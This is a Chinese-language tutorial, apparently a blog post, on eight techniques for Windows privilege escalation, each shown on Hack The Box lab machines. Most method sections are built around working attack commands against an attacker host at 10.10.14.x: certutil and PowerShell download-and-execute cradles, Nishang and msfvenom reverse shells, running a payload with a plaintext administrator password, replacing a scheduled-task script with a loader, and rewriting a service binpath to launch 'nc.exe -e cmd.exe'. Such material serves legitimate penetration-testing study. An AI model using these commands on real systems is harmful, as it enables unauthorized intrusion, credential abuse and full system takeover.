# 在Windows系统下提权的8种主要姿势

## 摘要

在Windows操作系统中，特权提升发生在用户获取了比其权限允许的更多系统资源的情况下。这意味着从低级用户切换到更高级别的用户，例如管理员或“NT AUTHORITY/SYSTEM”帐户。特权提升的可能性源于系统的配置错误或弱点。

管理员与系统账户之间的区别取决于它们对操作系统和进程的控制程度。管理员可以更改安全设置、安装软件和硬件、访问计算机上的所有文件以及更改其他用户帐户。系统帐户是一个内置的Windows帐户，拥有最高级别的权限。操作系统使用此帐户来运行系统服务、进程和任务，尽管它不对应于一个实际的用户。它具有对文件系统的完全访问权限，并可以执行系统级别的更改。

## 方法1：手动检测

### 系统枚举

手动检测的方法通常是利用系统命令来枚举操作系统以帮助收集特权提升的维度信息。

例如, 在PowerShell下执行systeminfo命令来枚举操作系统, 获取的信息包括:系统版本、补丁级别、操作系统名称、版本、处理器信息、BIOS版本等信息,如图:



使用 wmic qfe命令可以获取Windows中已安装更新的概览, 了解系统的补丁历史信息, 并能够让黑客识别可能被用来进行特权提升的任何缺失补丁或更新, 如图:



### 用户枚举

进行用户枚举可以让黑客对当前用户及自身拥有的权限以及所属的组有一个全面的了解, 有助于特权提升的路径选择。

使用 whoami命令可以知道当前正在运行的用户是谁, 当然还可以使用其它选项, 例如: /priv和/groups, 以获取关于用户权限以及所属安全组的更新有价值信息。



而使用 net user命令将打印出当前系统中的所有用户, 如图:



还可以使用net user username命令来获取特定用户的详细概述。这将显示用户的名称、密码信息和组成员身份，以及帐户的各种设置和属性。如图:



而使用net localgorup命令将显示系统中所有可用的组, 这对于了解系统中可用的不同访问级别可能是有帮助的,如图:



还可以使用该命令外加一个组名来获取该组的信息概览以及该组的用户, 如图:



黑客可以手动以其它方式枚举Windows, 其中包括: 网络枚举、防病毒软件枚举以及服务和进程枚举等。

## 方法2：利用自动化工具

利用自动化工具在寻找特权提升路径时可以提供很大帮助, 这些工具可以快速高效的扫描已知安全漏洞, 配置错误和安全弱点。

### 第一个出场工具: WinPEAS



WinPEAS，也被称为“Windows特权提升Awesome脚本”，是一个流行、广为人知且简单优秀的开源工具，用于帮助发现Windows系统中特权提升的潜在路径。

它采用了一种颜色编码系统，显示应该首先查看的区域。WinPEAS可以识别几种常见的安全配置错误，例如弱文件夹权限、弱注册表权限、错误配置的服务、计划任务等。

### 第二个出场工具: PowerUp



PowerUp是一个PowerShell脚本，用于在目标系统上查找常见的特权提升漏洞。可以使用Invoke-AllChecks参数来运行它，该参数执行所有检查。还可以使用它来执行特定的检查，例如使用Get-UnquotedService参数，该参数仅查找可能存在未引用的服务路径漏洞。可能需要绕过目标系统上的执行策略才能运行PowerUp。

### 第三个出场工具：Seatbelt



Seatbelt是GhostPack工具套件的一部分，是一个C#工具，它会执行一系列检查，收集系统和用户数据，而不是寻找特权提升向量。它对于识别潜在的特权提升路径非常有用。

### 第四个出场工具：SharpUp



SharpUp是GhostPack工具集合中的另一个工具，作为多个PowerUp功能的C#端口。其中包含了大多数检查。它是一个灵活的工具，能够执行单个漏洞检查或执行每个检查的完整审计。

### 第五个出场工具：Windows Exploit Suggester



Windows Exploit Suggester是一个使用Python编写的系统补丁检查工具，通过检查Windows系统的补丁级别，可以定位特权提升路径。它将系统的补丁级别与微软漏洞数据库进行比较，以检测潜在的缺失补丁。通过识别这些缺失的补丁，该工具可以提供一个潜在的漏洞列表，用于特权提升。

## 方法3：利用内核漏洞

内核漏洞是在Windows操作系统中发现的漏洞，允许攻击者提升权限。这些漏洞针对操作系统内核中的缺陷。

攻击者可能通过利用这些漏洞获得未经授权的系统级别权限。这可能导致完全接管，使攻击者能够执行任意代码、修改系统数据、安装软件或执行其他操作。

为了演示如何利用内核漏洞, 从低级用户提升到系统用户。下面将使用“Hack The Box: Devel”机器作为试验环境。

一旦通过Netcat建立了一个反向shell，就可以运行systeminfo命令。将输出的内容复制并保存到与本地机器上的Windows Exploit Suggester相同的文件夹中。将其保存为systeminfo.txt。



在运行脚本之前，需要更新Windows Exploit Suggester数据库。可以查看自述文件获取更多信息。

使用系统信息和数据库文件运行Windows Exploit Suggester脚本。



接下来将看到一系列潜在的漏洞利用。这里黑客比较感兴趣的是MS10-059，也称为Chimichurri。这个漏洞利用将允许黑客以系统帐户身份生成一个shell。



从这个地址：https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059下载可执行文件, 请确保下载的内容以及脚本或漏洞利用的功能, 否则在真实的环境中使用可能会造成严重的后果。

下载完成后，在Kali中以与下载的漏洞利用相同的文件夹启动Python服务器。使用以下命令：

```
python3 -m http.server
```

返回到Windows机器上，进入临时文件夹，并使用certutil下载漏洞利用。

```
certutil -urlcache -f http://10.10.14.10:8000/MS10-059.exe exploit.exe
```

临时文件夹是下载脚本、工具和漏洞利用的好地方，因为它通常具有所需的写入和执行权限。



接下来，在攻击机器上启动一个Netcat监听器。在Windows上，使用自己机器的IP和刚刚在Netcat中使用的端口运行漏洞利用。

```
exploit.exe 10.10.14.10 5555
```

回到Kali机器, 将看到成功获取到一个Shell,如图:



找到过时或未打补丁的系统可能会通过内核漏洞导致特权提升。在使用内核漏洞时要小心，因为它们有时可能会导致目标系统不稳定。

## 方法4：利用Windows中的Linux子系统

WSL代表Windows子系统Linux。它是在Windows系统上运行Linux的兼容性层。它允许用户在Windows上直接运行GNU/Linux环境，而无需虚拟机，包括大多数命令行工具和实用程序。

在某些情况下，如果WSL以root权限运行，可以利用它来创建一个提升的shell。下面将演示如何使用WSL通过“Hack The Box: SecNotes”机器上的bash历史记录进行特权提升。

一旦在机器上建立了一个shell并找到了Tyler桌面上的user.txt文件，会注意到一个bash.lnk文件。这个文件可能表明这个Windows操作系统正在运行WSL。



接下来看看能否找出系统上是否正在运行bash.exe。

可以使用以下命令尝试查找它：

```
where /R C:\Windows bash.exe
```

很好，bash.exe位于两个不同的文件夹中。

从System32文件夹运行它，使用命令：

```
C:\Windows\System32\bash.exe
```

必须使用以下命令来解除shell的限制：

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

接下来，可以进行一些Linux枚举。



接着看一下命令行历史记录,如图:



这里找到了Windows系统管理员的一些凭据。可以使用上面的命令和机器的IP来访问系统文件夹，但也可以运行psexec并获取一个交互式的系统shell，从而获取更多的控制权。



特权提升可能通过WSL实现，当枚举时，检查历史记录作为第一步是一个不错的选择， 这里面的东西往往非常丰富。

## 方法5：令牌冒充

令牌冒充特权提升攻击发生在低权限用户窃取高权限用户或进程的令牌，并使用它执行通常不被允许的操作时，例如访问敏感数据或修改重要系统设置。将令牌想象成一张身份证。属于不同用户或服务的每张身份证都具有控制资源访问的特定权限。

在下面的演示中，将使用Juicy Potato攻击。JuicyPotato在Windows Server 2019或Windows 10版本1809以后不再起作用。但是，其他类似的攻击可以用来利用相同的权限。因此,在攻击之前还需要针对性研究具体操作系统和版本。

可以通过“Hack The Box: Bounty”机器来看看是怎样运行的。一旦黑客建立了一个shell，就可以开始手动枚举。下面看看whoami和whoami/priv命令。



现在拥有了执行Juicy Potato攻击所需的正确特权。运行systeminfo，看看是否有正确的Windows版本。



现在已经准备好进行Juicy Potato攻击了，从这里下载漏洞利用工具:https://github.com/ohpe/juicy-potato/releases到kali系统,

确保在与漏洞利用工具相同的目录中设置了一个python3简单服务器来提供文件，使用以下命令：

```
python3 -m http.server
```

也可以使用Apache或SMB服务器。

现在，使用以下命令将其传输到Windows机器：

```
(new-object net.webclient).downloadfile('http://10.10.14.12:8000/jp.exe', 'C:Users\merlin\Desktop\jp.exe')
```



接下来，必须创建一个反向shell。从Nishang存储库中下载Invoke-PowerShellTcp.ps1脚本。下载地址:https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1在脚本的底部添加以下内容，并保存。将其保存为shell2.ps1。

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.12 -Port 8888
```

确保使用攻击机器的IP地址和Netcat捕获shell时使用的端口。

现在创建一个包含以下单行命令的.bat文件：

```
powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.12/shell2.ps1')
```

它将下载shell2.ps1脚本并运行它。将其命名为bounty.bat。可以使用喜欢的文本编辑器（Nano、Vi、Gedit、Leafpad等）创建此文件，或者使用touch命令创建文件，并将单行命令写入其中。

接下来，使用先前显示的(new-object net.webclient).downloadfile命令从服务器下载bounty.bat文件到Windows机器上。确保在Kali上设置了一个服务器来托管文件, 使用shell2.ps1脚本中的信息在Kali上启动一个Netcat监听器。

最后，可以开始利用漏洞，但请确保使用以下三个标志运行它。

```bash
-t createprocess call: <t> CreateProcessWithTokenW，<u> CreateProcessAsUser，<*> 尝试两者

-p <program>: 要启动的程序

-l <port>: COM服务器监听端口（任何端口都可以）
```


以下是运行的命令:

```
./jp.exe -t * -p C:Users\merlin\Desktop\bounty.bat -l 4444
```



现在已经是系统用户了



进入新的Windows shell时，确保保持始终检查特权的习惯，因为随时可能拥有可以被滥用的权限，使你能够提升到管理员或系统用户。

## 方法6：保存凭据

在Windows中，偶尔会出现用户凭据以纯文本形式保存的情况。这发生的原因有很多。一个原因是如果启用了Windows的自动登录功能。该功能将凭据以纯文本形式存储在注册表中，允许其他用户启动计算机并自动使用该帐户登录。

下面将演示如何利用此功能将低级帐户提升到管理员。

这里将使用“Hack The Box: Chatterbox”机器作为演示环境。一旦通过缓冲区溢出建立了反向shell，你将成为用户Alfred。



可以从攻击机器开始一些自动枚举，通过以下命令将winPEAS从攻击机器下载到Chatterbox：

```
certutil -urlcache -split -f "http://10.10.14.12:8000/winPEASany.exe" wp.exe
```

确保攻击机器上有一个服务器，位于与winPEAS相同的文件夹中，这样就可以下载文件。可以使用命令：

```
python3 -m http.server
```



运行winPEAS后，会注意到它找到了用户Alfred的AutoLogon凭据。该密码可能也适用于管理员用户。



由于无法通过RDP或其他方法进行测试，必须使用PowerShell自动化实用程序。这将允许攻击者在另一个用户的上下文中运行脚本。

第一步是使用MSFvenom创建一个反向shell。

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.12 LPORT=4444 -f exe > shell.exe
```

接下来，必须使用certutil命令将shell.exe下载到Chatterbox。记得设置服务器来托管文件。



使用与MSFvenom payload相同的端口启动Netcat。接下来，运行以下PowerShell命令以获取管理员权限的反向shell。

```
powershell -c "$password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential('Administrator', $password);Start-Process -FilePath "shell.exe" -Credential $creds"
```

上面的参数命令含义如下:

- powershell -c:: 启动一个PowerShell会话并执行以下命令

- ```bash
  $password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force;
  ```

- 此行将$password变量设置为密码'Welcome1!'的安全字符串表示。ConvertTo-SecureString命令用于将明文密码转换为安全字符串。-AsPlainText参数指定密码以明文形式提供，并且-Force参数确保转换在不提示确认的情况下执行。

- ```bash
  $creds = New-Object System.Management.Automation.PSCredential('Administrator', $password);
  ```

- 此行使用New-Object命令创建一个名为$creds的新PSCredential对象。PSCredential对象表示一组安全凭据，包括用户名和密码。在这种情况下，用户名是'Administrator'，密码是存储在$password变量中的安全字符串。

- ```bash
  Start-Process -FilePath "shell.exe" -Credential $creds
  ```

- 此行使用Start-Process命令启动一个新进程。它启动名为"shell.exe"的可执行文件。-Credential参数指定在运行进程时要使用的凭据，$creds包含在前一步中创建的PSCredential对象，其中包括用户名和密码。总之，此PowerShell命令设置一个安全密码，使用用户名'Administrator'和安全密码创建一组凭据，然后使用这些凭据启动反向shell。



现在已经提升了权限到管理员级别。



有时凭据会以明文形式保存，并且如果它们被重新用于其他服务或用户，可以用来提升权限。

## 方法7：定时任务

Windows中的定时任务是在设定的时间运行某些脚本或程序的自动化方式。就像Linux环境中的cron作业一样，定时任务让用户在特定时间运行诸如备份、更新和病毒扫描等任务；可以是每分钟、每小时，甚至每天。

如果任务具有错误配置的权限，则可能导致权限提升。这可能使低级用户能够修改任务或文件，从而允许他们使其执行任何他们想要的操作。

由于大多数任务都以管理员的权限运行（通常是创建任务的用户），因此脚本也将以这些更高的权限运行，使用户能够提升权限。

在“Hack the Box: Tally”机器上测试。一旦获得了由SQL提供的反向shell，将成为用户Sarah。



前往Sarah的桌面, 注意到有两个有趣的文件。



如果查看 .xml 文件，会注意到几件事情。带有 -ExecutionPolicy Bypass 和 -skipadmincheck 参数的 PowerShell 脚本 SPBestWarmUp.ps1将在TALLYAdministrator用户的权限下运行。它每天每小时运行一次。

由于该文件以管理员权限运行，可以使用该脚本来提升权限。但首先，看看是否有正确的权限来修改它。

可以使用以下 PowerShell 命令来检查文件的权限：

```
Get-Acl SPBestWarmUp.ps1 | Format-List
```



将Nishang反向shell复制到攻击机器，并在脚本底部添加以下行：

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.12 -Port 4444
```

记住使用机器的IP地址和将与Netcat端口。在与Nishang脚本相同的目录中设置一个Python服务器。

```
python3 -m http.server
```

启动Netcat监听，并使用以下命令将SPBestWarmUp.ps1文件的内容替换为反向shell。

```
echo "iex(new-object net.webclient).downloadstring('http://10.10.14.12:8000/shell2.ps1')" >SPBestWarmUp.ps1
```



现在等待定时任务运行。可能需要一个小时才能生成shell。



有时定时任务会存在错误配置的权限，给我们提权的机会。在真实的任务中，务必确保备份和恢复修改、替换或删除的任何文件。

## 方法8：弱服务权限


在Windows中，服务允许应用程序以一定权限在后台运行。这些服务可以以不同的特权级别运行，取决于它们的配置方式。这可以是从低级用户一直到系统帐户。

当低级用户可以使用高级特权修改服务时，这就是弱服务权限。配置错误可能包括：

- 不正确的访问控制列表（ACL），允许非管理员修改服务。

- 服务具有弱文件权限。

接下来利用“Hack The Box: Querier”机器上的弱服务权限, 一旦获得了shell, 将成为mssql_svc用户。



第一步将从攻击机器下载PowerUp脚本。可以在与脚本相同的目录中启动Python服务器，使用以下命令：python3 -m http.server

进入Powershell，然后进入C:\Reports文件夹。使用以下命令下载PowerUp脚本：

```
Invoke-WebRequest -Uri http://10.10.14.15:8000/PowerUp.ps1 -OutFile C:\Reports\PowerUp.ps1
```

确保将IP和端口更改为自己机器的设置。



下载完成后，使用Invoke-AllChecks运行PowerUp:



通过这个服务，可以使用PowerUp的Invoke-ServiceAbuse函数，该函数滥用了当前用户具有配置权限的功能，以添加本地管理员或执行自定义命令。

值得注意的是，要利用这个服务，CanRestart必须为True。因为重新启动服务是我们执行命令的方法。

可以通过手动更改binpath来执行此操作以运行命令。将运行Netcat以提供反向shell作为管理员。

切换回普通命令提示符。需要通过使用“sc”（服务控制）命令修改UsoSvc服务的配置，将binpath设置为运行Netcat反向shell。

```
sc config UsoSvc binpath= "C:\Reports\nc.exe -e cmd.exe 10.10.14.15 4444"
```

要检查命令是否有效并查询服务的配置信息，可以使用以下命令：

```
sc qc UsoSvc
```



命令已生效，因为新的binpath已设置为我们的命令。现在需要停止然后重新启动服务，以弹出系统shell。



确保攻击机器上已启动了Netcat，并且一旦启动了服务，将拥有一个提升的shell。



如果服务权限不足，可以利用这一点来提升权限。就像在定时任务部分提到的那样，在实际的任务中，务必确保备份和恢复修改、替换或删除的任何文件。